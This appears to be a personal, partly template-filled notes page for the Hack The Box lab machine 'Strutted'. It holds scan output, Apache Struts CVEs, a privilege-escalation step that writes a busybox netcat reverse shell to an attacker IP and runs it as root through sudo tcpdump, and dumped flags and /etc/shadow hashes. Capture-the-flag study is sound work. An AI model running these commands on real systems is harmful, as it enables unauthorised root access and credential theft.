 ```yaml
---
file_created: 05 Sep 2025 17:48
title: Strutted
difficulty: Medium
difficult_sort: 2
points: 0
os: Linux
target_ip: 10.10.11.59
platform: Hack The Box
category: B2R
box_status: Retired
url:
user_flag: true
root_flag: true
completed: false
date_finish: 2025-09-07
tags:
  - htb/machines
---
```

# Resolution summary
![400](<./attachments/Strutted-4.png>)

>[!summary]
>- Step 1
>- Step 2

## Tutorial
```cardlink
url: https://www.youtube.com/watch?v=p_Os7kOteO4
title: "Strutted | HTB Walkthrough"
description: "0:00 Introduction3:20 Remote Code Execution 110:56 Remote Code Execution 213:46 Stable Shell14:23 Initial Access18:01 Privilege Escalation"
host: www.youtube.com
favicon: https://www.youtube.com/s/desktop/814d40a6/img/favicon_32x32.png
image: https://i.ytimg.com/vi/p_Os7kOteO4/hqdefault.jpg
```
- [write-up](<./attachments/Strutted.pdf>)
- [medium](https://medium.com/@qinncade/strutted-htb-walkthrough-31bd09097eb0)
- [medium 2](https://medium.com/@CN-0x/strutted-hackthebox-write-up-d6d1c0ed9725)
## Improved skills

- Skill 1
- Skill 2
## Used tools
rustscan; nmap; gobuster

---
# Information Gathering

Scanned all TCP ports:
- `export IP="10.10.11.59"`
```bash
rustscan -a $IP -r 1-65535 -t 10000 --ulimit 5000

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```

Enumerated open TCP ports:

```bash
nmap -Pn -p 22,80 $IP-sCTV -vv -oN scans/nmap-open.tx

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Strutted\xE2\x84\xA2 - Instant Image Uploads
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---

# Enumeration

## Port 80 - HTTP (Apache)
- Needs to redirect to `http://strutted.htb/`
```sh
echo "10.10.11.59 strutted.htb" | sudo tee -a /etc/hosts
```
### Gobuster
![](<./attachments/Strutted-1.png>)
`https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Ftse1.mm.bing.net%2Fth%2Fid%2FOIP.p5wZWNJ_CyoIsfbIrD2GRQHaGw%3Fpid%3DApi&f=1&ipt=38a20949d19165363f2bccc1c1fece202f25279423da04a911e834b22d059f0d&ipo=images`

---

# Exploitation
![](<./attachments/Strutted-2.png>)
You're using **Apache Struts version 6.3.0.1** (as shown in your Maven `<properties>`), along with other dependencies like Jetty and Jackson. Based on that setup, here are the known _critical vulnerabilities_ affecting your configuration:

| CVE            | Affected Versions | Severity | Recommendation              |
| -------------- | ----------------- | -------- | --------------------------- |
| CVE-2023-50164 | Up to 6.3.0.1     | Critical | Upgrade to 6.3.0.2 or newer |
| CVE-2024-53677 | Up to 6.3.0.2     | Critical | Upgrade to 6.4.0 or newer   |


- [magic byte](https://en.wikipedia.org/wiki/List_of_file_signatures)
---
# Lateral Movement to xxx

## Local enumeration


## Lateral movement vector

---
# Privilege Escalation to xxx

## Local enumeration


## Privilege Escalation vector
```sh
echo $'id\nbusybox nc 10.10.14.80 9001 -e /bin/bash' > pwn  
chmod +x pwn
```

```sh
sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z ./pwn -Z root
```
---
# Trophy

## User Flag
```txt
400948114aa53710bbd820f04029ecaf
```
## Root Flag
```txt
05e10ddebd88e3473be72e56047deb13
```
## **/etc/shadow**

```txt
root:$y$j9T$4kM4HKyBvH.VNLjh.Zd60/$27BeC7cFIgPH.bVrllpoxXQwtc4tMCN6EZkI9Tqbw/B:20100:0:99999:7:::
james:$y$j9T$Agb7G27RJ0LCkmXQ3kDEK0$xoWkrSDF/pC4dkrIlBKe0LpYWCZH4YTz0NJ/zEn8.59:20100:0:99999:7:::
```

---
# Proof
![](<./attachments/Strutted-3.png>)